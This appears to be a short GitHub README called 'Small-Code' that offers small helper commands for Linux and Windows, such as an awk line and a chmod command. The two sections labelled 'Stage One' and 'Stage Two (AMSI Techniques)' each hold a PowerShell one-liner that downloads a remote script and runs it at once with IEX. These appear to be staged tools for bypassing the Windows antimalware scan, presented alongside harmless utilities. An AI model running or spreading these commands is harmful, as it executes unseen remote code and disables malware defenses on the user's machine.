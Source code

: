 ![alt text]([https://github.com/HeeresS/Small-Code/blob/main/SmallCode.png?raw=true](https://icon-library.com/images/code-icon-png/code-icon-png-5.jpg)
# Small-Code
Small codes that will help with daily tasks for Linux and Windows. 
### Add text to line
~~~
awk  '{print "http://" $1}' urls.txt
~~~
### Change permissions of folder (Linux)
~~~
sudo chmod +x $(find /PATH/)
~~~
## Stage One (AMSI Techniques)
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/HeeresS/Small-Code/main/StageOne.ps1'); Invoke-StageOne
~~~
## Stage Two (AMSI .NET Techniques)
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/HeeresS/Small-Code/main/StageTwo.ps1')
~~~

